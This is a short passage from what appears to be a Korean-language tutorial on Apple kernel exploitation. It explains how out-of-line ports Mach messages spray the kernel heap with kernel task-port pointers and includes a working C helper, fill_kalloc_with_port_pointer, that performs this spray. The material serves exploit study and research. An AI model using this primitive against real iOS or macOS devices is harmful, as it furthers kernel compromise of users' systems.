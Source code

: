 먼저 `Ports` 배열을 생성하여 사용자 모드 Task Port를 저장한 다음, OOL 메시지를 구성한다. 나머지는 중요하지 않고, 핵심은 `msg->ool_ports.address`와 `msg->ool_ports.count`이다. 이 두 항목만 제대로 구성하면 된다. 이후 `msg_send()` 함수를 호출하여 메시지를 전송하면, 이때 메모리 할당이 발생하고, 사용자 모드 Task Port가 커널 모드 Task Port의 주소로 변환되어 우리가 제어 가능한 메모리 공간에 기록된다.

```c
mach_port_t fill_kalloc_with_port_pointer(mach_port_t target_port, int count, int disposition) {
    mach_port_t q = MACH_PORT_NULL;
    kern_return_t err;
    err = mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &q);
    if (err != KERN_SUCCESS) {
        printf("[-] failed to allocate port\n");
        return 0;
    }
    
    mach_port_t* ports = malloc(sizeof(mach_port_t) * count);
    for (int i = 0; i < count; i++) {
        ports[i] = target_port;
    }
    
    struct ool_msg* msg = (struct ool_msg*)calloc(1, sizeof(struct ool_msg));
    
    msg->hdr.msgh_bits = MACH_MSGH_BITS_COMPLEX | MACH_MSGH_BITS(MACH_MSG_TYPE_MAKE_SEND, 0);
    msg->hdr.msgh_size = (mach_msg_size_t)sizeof(struct ool_msg);
    msg->hdr.msgh_remote_port = q;
    msg->hdr.msgh_local_port = MACH_PORT_NULL;
    msg->hdr.msgh_id = 0x41414141;
    
    msg->body.msgh_descriptor_count = 1;
    
    msg->ool_ports.address = ports;
    msg->ool_ports.count = count;
    msg->ool_ports.deallocate = 0;
    msg->ool_ports.disposition = disposition;
    msg->ool_ports.type = MACH_MSG_OOL_PORTS_DESCRIPTOR;
    msg->ool_ports.copy = MACH_MSG_PHYSICAL_COPY;
    
    err = mach_msg(&msg->hdr,
                   MACH_SEND_MSG|MACH_MSG_OPTION_NONE,
                   msg->hdr.msgh_size,
                   0,
                   MACH_PORT_NULL,
                   MACH_MSG_TIMEOUT_NONE,
                   MACH_PORT_NULL);
    
    if (err != KERN_SUCCESS) {
        printf("[-] failed to send message: %s\n", mach_error_string(err));
        return MACH_PORT_NULL;
    }
    
    return q;
}
```
